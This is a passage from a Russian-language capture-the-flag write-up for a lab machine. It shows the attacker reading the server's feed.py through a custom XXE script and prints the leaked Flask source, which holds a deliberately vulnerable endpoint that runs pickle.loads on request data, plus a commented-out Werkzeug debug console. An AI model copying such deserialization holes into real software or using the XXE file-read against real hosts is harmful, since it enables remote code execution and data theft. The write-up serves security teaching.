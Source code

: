 ### user.txt
```text
roosa@gitter:~$ cat /home/roosa/user.txt
c5808e16????????????????????????
```

# Захват пользователя. Способ 2
Рассмотрим более "правильный" способ PrivEsc'а до юзера: для этого заберем исходник `feed.py`, о котором шла речь на главной сайта, из директории `/home/roosa/deploy/src`:
```text
root@kali:~# python3 devoops_xxe.py /home/roosa/deploy/src/feed.py
```

```python
')
```

```python
def uploaded_file(filename):
    return send_from_directory(Config.UPLOAD_FOLDER,
                               filename)

@app.route("/")
def xss():
    return template('index.html')

@app.route("/feed")
def fakefeed():
   return send_from_directory(".","devsolita-snapshot.png")

@app.route("/newpost", methods=["POST"])
def newpost():
  # TODO: proper save to database, this is for testing purposes right now
  picklestr = base64.urlsafe_b64decode(request.data)
#  return picklestr
  postObj = pickle.loads(picklestr)
  return "POST RECEIVED: " + postObj['Subject']


## TODO: VERY important! DISABLED THIS IN PRODUCTION
#app = DebuggedApplication(app, evalex=True, console_path='/debugconsole')
# TODO: Replace run-gunicorn.sh with real Linux service script
# app = DebuggedApplication(app, evalex=True, console_path='/debugconsole')

if __name__ == "__main__":
  app.run(host='0.0.0,0', Debug=True)
```

Заметим, что исходник неполный в силу издержек чтения файла посредством XML-сущностей — мы нарвались на спец. символы (скорее всего, это угловые скобки `< >`), недавшие забрать содержимое целиком, поэтому имеем только часть кода. К счастью, нам вполне этого хватит. Полную версию можно найти в [эпилоге]({{ page.url }}#feedpy) .
